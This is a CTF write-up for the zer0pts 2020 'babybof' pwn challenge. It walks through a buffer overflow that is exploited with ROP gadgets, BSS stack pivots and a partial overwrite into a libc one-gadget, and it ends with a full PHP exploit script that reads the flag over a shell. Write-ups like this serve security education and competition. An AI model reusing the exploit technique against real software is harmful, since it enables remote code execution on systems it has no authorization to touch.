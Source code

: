 # babybof - zer0pts CTF 2020 (pwn, 590p, 17 solved)
## Introduction

babybof is a pwn task.

An archive containing a binary, and a libc is provided.

## Reverse engineering

The binary is a `baby` task : it is minimalist.

It only sets up the stream buffers by calling `setbuf` on `stdin`, `stdout` and
`stderr`. It then read 0x200 bytes in a 32-bytes buffer and calls exit.

This yields ROP, but there are only 7 gadgets in total :
```
0x0040043e: call qword [rbp+0x48] ;  (1 found)
0x00400498: dec ecx ; ret  ;  (1 found)
0x00400499: leave  ; ret  ;  (1 found)
0x0040049b: pop r15 ; ret  ;  (1 found)
0x0040047c: pop rbp ; ret  ;  (1 found)
0x0040049c: pop rdi ; ret  ;  (1 found)
0x0040049e: pop rsi ; ret  ;  (1 found)
```

The binary imports function from the libc, but the global offset table is
read-only.

## Exploitation

While the global offset table is read-only, the pointers to `stdin`, `stdout`
and `stderr` are stored at the beginning of the BSS section, and are writeable.

The idea is to call read multiple times :
1. first to pivot a new stack in the BSS section (for example at BSS +
   0x50) and clear the stack for a one-gadget
2. then pivot again, this time before the stream buffers
3. finall, overwrite one of the stream buffers partially and use it as a return
   address

The 3 last bytes of a one-shot gadget (libc + 0xF1147) can be used. This result
in an exploit that works once every 4096 times on average.

**Flag**: `zer0pts{b0f_i5_4lw4y5_d4ng3r0u5}`

## Appendices

### pwn.php

```php
#!/usr/bin/php
<?php
require_once("Socket.php");

const POPR15 = 0x0040049b; // pop r15 ; ret  ;  (1 found)
const POPRBP = 0x0040047c; // pop rbp ; ret  ;  (1 found)
const POPRDI = 0x0040049c; // pop rdi ; ret  ;  (1 found)
const POPRSI = 0x0040049e; // pop rsi ; ret  ;  (1 found)

const CALL   = 0x0040043e; // call qword [rbp+0x48] ;  (1 found)
const DECECX = 0x00400498; // dec ecx ; ret  ;  (1 found)
const LEAVE  = 0x00400499;

const READ   = 0x0040048b;

const BSS = 0x601000;
const RET = 0x0040049f;

$what = 0x7ffff7a0d000 + 0x000f1147;

$t = new Socket("13.231.207.73", 9002);

/* Read in stack */
$payload = str_repeat("A", 0x28) . pack("Q*",
	POPRBP, BSS + 0x50 + 0x20,
	READ,
);
$payload = str_pad($payload, 0x200, "\x00");


/* Second read */
$payload .= str_repeat("\x00", 0x28);
$payload .= pack("Q*",
	POPRBP, BSS + 0x20,
	READ,
);
$payload = str_pad($payload, 0x400, "\x00");

/* Partial overwrite */
$payload .= str_repeat("\x00", 0x28);
$payload .= pack("Q", RET);
$payload .= substr(pack("Q", $what), 0, 3);

$t->write($payload);

usleep(5e5);

try {
	@$t->write("/bin/cat /home/pwn/*flag*\n");
	while($packet = @$t->readLine())
		printf("%s\n", $packet);
} catch(TypeError $e) {
	exit;
} catch(Exception $e) {
	exit;
}
```